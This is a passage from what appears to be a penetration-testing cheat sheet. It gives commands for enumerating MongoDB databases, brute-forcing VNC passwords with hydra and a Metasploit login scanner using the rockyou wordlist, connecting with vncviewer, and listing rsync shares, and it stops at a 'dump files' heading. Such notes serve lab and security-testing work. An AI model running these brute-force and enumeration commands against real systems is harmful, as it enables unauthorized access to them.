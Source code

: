 #### MongoDB

**start mongo**

```markdown
mongo
```

**show the databases**

```markdown
show dbs
```

**show tables inside the database**

```markdown
show tables
```

**find content of a table**

```markdown
db.$table_name.find()
```

#### VNC

Bruteforce login using hydra and msfconsole

* hydra

```bash
hydra -s 5900 -P /usr/share/wordlists/rockyou.txt vnc://<IP>
```

* Using Metasploit

```bash
msf6 > use auxiliary/scanner/vnc/vnc_login 
msf6 auxiliary(scanner/vnc/vnc_login) > set rhosts <rhost>
msf6 auxiliary(scanner/vnc/vnc_login) > set pass_file /usr/share/wordlists/rockyou.txt
msf6 auxiliary(scanner/vnc/vnc_login) > run
```

* Reference: https://www.hackingarticles.in/password-crackingvnc/

Interact with VNC

```bash
vncviewer <IP>
```

#### rsync

**list files**

```bash
rsync -av --list-only rsync://<IP>/<sharename> 
```

**dump files**
